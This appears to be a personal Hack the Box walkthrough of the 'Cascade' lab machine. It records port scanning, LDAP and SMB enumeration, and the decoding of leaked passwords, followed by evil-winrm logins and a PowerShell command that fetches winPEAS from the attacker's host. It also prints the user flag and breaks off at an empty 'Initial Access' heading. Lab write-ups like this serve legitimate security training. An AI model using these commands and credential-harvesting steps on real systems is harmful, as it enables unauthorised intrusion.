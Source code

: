 ```yaml
---
title: Cascade_(I) - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cascade_(I).png
---
```

---
title: 2024-10-12-Cascade_(I) - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cascade_(I).png
---
### Scan
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```
### Enumeration
no zone transfer
no smb (map or client)
enum4linux users hit (via rpcclient) ![Image](/assets/Screenshot 2024-09-16 at 1.37.17 PM.png)
group hit (via rpcclient)![Image](/assets/Screenshot 2024-09-16 at 1.39.11 PM.png)
Password Policy Info ![Image](/assets/Screenshot 2024-09-16 at 1.37.53 PM.png)
Dump users into a file, grep and clean, then use script to asrep roast.
ASREP roast came back with nothing.
weak password policy, want to try and crack... Too much. Enumerate thoroughly, exploit simply. I'm missing something
LDAP dump with `ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182`
Reallllllly look. Ryan encoded password. Looks like BASE64 ![Image](/assets/Screenshot 2024-09-16 at 2.20.37 PM.png)
Decode with online decoder, password is `rY4n5eva`
Time to re-enumerate shares with `smbmap -H cascade.htb -u "user" -p "pass"`
![Image](/assets/Screenshot 2024-09-16 at 2.32.54 PM.png)
Only share we have access to is IT. Interesting email, log files, but really interesting s.smith files
![Image](/assets/Screenshot 2024-09-16 at 2.40.59 PM.png)
Email disclosing TempAdmin w/ possible brute password ![Image](/assets/Screenshot 2024-09-16 at 2.42.21 PM.png)
Hex password and possible VNC service escalation![Image](/assets/Screenshot 2024-09-16 at 2.49.23 PM.png)
Regular hex decoding didn't work, but there is a VNC decrypt tool for it. Which other box used this?
Encode and create the crackable file, as the tool only takes ciphertext: `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc.psd`
`sT333ve2` Password ![Image](/assets/Screenshot 2024-09-16 at 3.08.13 PM.png)
We've got two sets of credentials now.  `s.smith:sT333ve2` and `r.thompson:rY4n5eva`
Re-Enumerate
Steve's credentials grant us access to Audit$ share (smbmap script like above)![Image](/assets/Screenshot 2024-09-16 at 3.12.16 PM.png)
Gain access by `smbclient //10.10.10.182/Audit$ --user s.smith%sT333ve2`
Download two files![Image](/assets/Screenshot 2024-09-16 at 3.19.16 PM.png)
evilwinrm as smith `evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'`![Image](/assets/Screenshot 2024-09-16 at 3.20.01 PM.png)
Local Proof![Image](/assets/Screenshot 2024-09-16 at 3.21.01 PM.png)
`USER:8685e71cafb4e133d985dc08c223401c`

Big Oof trying to transfer with SMB and CertUtil. Crashed box twice. Python worked though. Serve WinPEAS
`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe`

Serve bloodhound ingester remotely as well. `bloodhound-python -d cascade.local -u s.smith -p sT333ve2 -ns 10.10.10.182 -c all`

Nothing from bloodhound as far as I can tell. WinPEAS?






### Initial Access
